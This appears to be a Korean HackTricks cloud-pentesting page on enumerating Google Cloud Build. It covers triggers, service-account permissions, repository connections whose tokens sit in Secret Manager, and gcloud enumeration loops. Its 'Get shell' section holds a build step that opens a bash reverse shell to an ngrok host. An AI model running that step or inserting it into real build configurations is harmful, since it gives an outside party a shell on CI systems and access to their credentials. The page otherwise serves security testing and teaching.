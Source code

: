 # GCP - Cloud Build Enum

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

Google Cloud Build는 **소프트웨어 빌드** 및 릴리스 프로세스를 자동화하는 관리형 CI/CD 플랫폼으로, **소스 코드 리포지토리**와 통합되며 다양한 프로그래밍 언어를 지원합니다. 이는 **개발자가 코드를 자동으로 빌드, 테스트 및 배포할 수 있도록 하며** 빌드 단계 및 워크플로우를 사용자 정의할 수 있는 유연성을 제공합니다.

각 Cloud Build Trigger는 **Cloud Repository와 관련이 있거나 외부 리포지토리**(Github, Bitbucket 및 Gitlab)와 직접 연결되어 있습니다.

> [!TIP]
> 여기나 Cloud Repositories에서 Github/Bitbucket 토큰을 훔칠 방법이 보이지 않았습니다. 리포가 다운로드될 때 [https://source.cloud.google.com/](https://source.cloud.google.com/) URL을 통해 접근되며, Github는 클라이언트에 의해 접근되지 않기 때문입니다.

### Events

Cloud Build는 다음과 같은 경우에 트리거될 수 있습니다:

- **브랜치에 푸시**: 브랜치를 지정합니다.
- **새 태그 푸시**: 태그를 지정합니다.
- **풀 리퀘스트**: PR을 받는 브랜치를 지정합니다.
- **수동 호출**
- **Pub/Sub 메시지:** 주제를 지정합니다.
- **Webhook 이벤트**: HTTPS URL을 노출하며 요청은 비밀로 인증되어야 합니다.

### Execution

3가지 옵션이 있습니다:

- 실행할 **명령을 지정하는 yaml/json**. 일반적으로: `/cloudbuild.yaml`
- 웹 콘솔 및 CLI에서 “인라인”으로 지정할 수 있는 유일한 것
- 가장 일반적인 옵션
- 인증되지 않은 접근에 관련됨
- 빌드할 **Dockerfile**
- 빌드할 **Buildpack**

### SA Permissions

**서비스 계정은 `cloud-platform` 범위를 가지므로** **모든 권한을 사용할 수 있습니다.** **SA가 지정되지 않으면** (제출할 때와 같이) **기본 SA** `<proj-number>@cloudbuild.gserviceaccount.com`가 **사용됩니다.**

기본적으로 권한이 주어지지 않지만, 쉽게 부여할 수 있습니다:

<figure><img src="../../../images/image (16).png" alt=""><figcaption></figcaption></figure>

### Approvals

Cloud Build를 **빌드 실행에 대한 승인을 요구하도록 구성할 수 있습니다** (기본적으로 비활성화됨).

### PR Approvals

트리거가 PR일 때, **누구나 공개 리포지토리에 PR을 수행할 수 있기 때문에** **모든 PR로 트리거 실행을 허용하는 것은 매우 위험합니다.** 따라서 기본적으로 실행은 **소유자 및 협력자에게만 자동으로** 이루어지며, 다른 사용자의 PR로 트리거를 실행하려면 소유자 또는 협력자가 `/gcbrun`으로 댓글을 달아야 합니다.

<figure><img src="../../../images/image (339).png" alt="" width="563"><figcaption></figcaption></figure>

### Connections & Repositories

연결은 다음을 통해 생성할 수 있습니다:

- **GitHub:** **Github 토큰을 얻기 위한 권한 요청**을 묻는 OAuth 프롬프트가 표시됩니다. 이 토큰은 **Secret Manager**에 저장됩니다.
- **GitHub Enterprise:** **GithubApp** 설치를 요청합니다. GitHub Enterprise 호스트에서 **인증 토큰**이 생성되어 이 프로젝트의 S**ecret Manager** 비밀로 저장됩니다.
- **GitLab / Enterprise:** **API 접근 토큰과 읽기 API 접근 토큰을 제공해야 하며**, 이는 **Secret Manager**에 저장됩니다.

연결이 생성되면, 이를 사용하여 **Github 계정이 접근할 수 있는 리포지토리를 연결**할 수 있습니다.

이 옵션은 버튼을 통해 사용할 수 있습니다:

<figure><img src="../../../images/image (17).png" alt=""><figcaption></figcaption></figure>

> [!TIP]
> 이 방법으로 연결된 리포지토리는 **2세대 트리거에서만 사용할 수 있습니다.**

### Connect a Repository

이는 **`connection`**과 동일하지 않습니다. 이는 **Github 또는 Bitbucket** 리포지토리에 접근하는 **다양한** 방법을 제공하지만 **연결 객체를 생성하지 않고, 1세대의 리포지토리 객체를 생성합니다.**

이 옵션은 버튼을 통해 사용할 수 있습니다:

<figure><img src="../../../images/image (18).png" alt=""><figcaption></figcaption></figure>

### Storage

때때로 Cloud Build는 **트리거를 위한 파일을 저장할 새로운 스토리지를 생성합니다.** 이는 GCP가 제공하는 예제와 같은 경우에 발생합니다:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
A Storage bucket called [security-devbox_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false&project=security-devbox)는 사용될 파일이 포함된 `.tgz`를 저장하기 위해 생성되었습니다.

### Get shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
gcloud을 클라우드 빌드 내에 설치:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### Enumeration

빌드 구성 및 로그에서 **민감한 정보를 찾을 수 있습니다**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 권한 상승

{{#ref}}
../gcp-privilege-escalation/gcp-cloudbuild-privesc.md
{{#endref}}

### 인증되지 않은 접근

{{#ref}}
../gcp-unauthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md
{{#endref}}

### 포스트 익스플로잇

{{#ref}}
../gcp-post-exploitation/gcp-cloud-build-post-exploitation.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}
